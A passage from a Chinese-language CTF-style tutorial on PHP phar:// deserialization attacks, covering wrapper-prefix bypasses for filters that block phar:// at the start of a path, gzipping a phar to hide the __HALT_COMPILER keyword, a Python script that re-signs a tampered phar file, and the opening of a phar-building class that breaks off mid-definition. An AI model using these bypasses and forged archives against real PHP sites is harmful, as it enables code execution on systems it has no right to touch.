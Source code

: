 直接执行测试的那份代码，phar://协议在file_get_contents函数中解析phar文件，将元数据反序列化执行魔法函数。

**绕过**

- **phar://不能出现在首部**

  复制

  ```
  compress.zlib://phar://
  compress.bzip2://phar://
  php://filter/resource=phar://
  ```

- **关键字**

  绕过如 `HALT_COMPILER`，使用 `gzip` 命令处理phar文件：

  `gzip phar.jpg`

  参考：[从一道题再看phar的利用](https://www.anquanke.com/post/id/240007#h2-5)

- **修改phar文件**

  改phar文件内容，因phar文件是有检验和的，所以直接改phar文件内容不可行。

  参考：[总结 - ctf中php的phar(一)](https://morblog.cc/posts/2586386993/)

  修复签名数据：

  复制

  ```
  from hashlib import sha1
  f = open('./ph1.phar', 'rb').read() # 修改内容后的phar文件
  s = f[:-28] # 获取要签名的数据
  h = f[-8:] # 获取签名类型以及GBMB标识
  newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
  open('ph2.phar', 'wb').write(newf) # 写入新文件
  ```

  构造phar结构：

  复制

  ```
  from zlib import crc32
  from struct import pack
  from time import time
  from hashlib import md5, sha1, sha256, sha512
  
  
  class PHAR:
      # 一些常量
      STUB = b"__HALT_COMPILER(); ?>"
      GBMB = b"GBMB"
      MD5 = b"\x01\x00\x00\x00"
      SHA1 = b"\x02\x00\x00\x00"
      SHA256 = b"\x03\x00\x00\x00"
      SHA512 = b"\x04\x00\x00\x00"
  
      def __init__(self,
                   prefix: str,
                   manifestData: dict,
                   filesData: list,
                   signatureType: MD5
                   ):
          self.prefix = prefix.encode()
          self.manifestData = manifestData
          self.filesData = filesData
          self.signatureType = signatureType
  
  ```